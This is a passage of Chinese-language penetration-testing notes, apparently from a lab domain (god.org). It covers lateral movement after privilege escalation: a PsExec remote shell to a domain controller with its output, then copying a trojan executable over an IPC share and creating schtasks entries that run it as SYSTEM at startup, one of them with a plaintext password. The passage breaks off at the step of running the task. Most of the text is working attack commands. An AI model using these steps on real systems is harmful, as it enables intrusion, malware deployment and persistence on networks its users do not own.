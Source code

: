     权限提升成功，后面就是将木马文件copy到域控，然后通过服务或者计划任务启动木马让其上线
    
    使用PsExec连接
    
    ```python
    C:\Users\a\Desktop>PsExec.exe \\owa.god.org cmd.exe
    
    PsExec v2.43 - Execute processes remotely
    Copyright (C) 2001-2023 Mark Russinovich
    Sysinternals - www.sysinternals.com
    
    Microsoft Windows [版本 6.1.7601]
    版权所有 (c) 2009 Microsoft Corporation。保留所有权利。
    
    C:\Windows\system32>whoami
    god.org\a
    
    C:\Windows\system32>ipconfig
    
    Windows IP 配置
    
    以太网适配器 本地连接:
    
       连接特定的 DNS 后缀 . . . . . . . :
       本地链接 IPv6 地址. . . . . . . . : fe80::f891:d593:b2e5:4108%11
       IPv4 地址 . . . . . . . . . . . . : 192.168.52.138
       子网掩码  . . . . . . . . . . . . : 255.255.255.0
       默认网关. . . . . . . . . . . . . : 192.168.52.2
    
    隧道适配器 isatap.{D7C92CB6-1939-46AC-85CE-50401CEC5056}:
    
       媒体状态  . . . . . . . . . . . . : 媒体已断开
       连接特定的 DNS 后缀 . . . . . . . :
    
    C:\Windows\system32>
    ```
    

## 通过计划任务来横向

环境：已经上线内网中的一台机器抓取到密码，准备横向另一台机器（已上线 cs）

1. 首先和目标主机建立 IPC 连接
2. 然后通过 copy 命令将木马文件传到目标主机（1.exe）
    
    ```python
    copy C:\Users\webadmin\Desktop\1.exe \\192.168.111.151\c$
    ```
    
3. 创建计划任务
    
    ```xml
    schtasks /create /s 192.168.111.151 /u administrator /p Lyp010822 /tn test /tr C:/1.exe /sc onstart /RU System /F
    schtasks /create /s 192.168.111.151 /tn test /tr C:/1exe  /sc onstart /RU System /F
    这里走的是RPC协议
    ```
    
4. 执行计划任务
    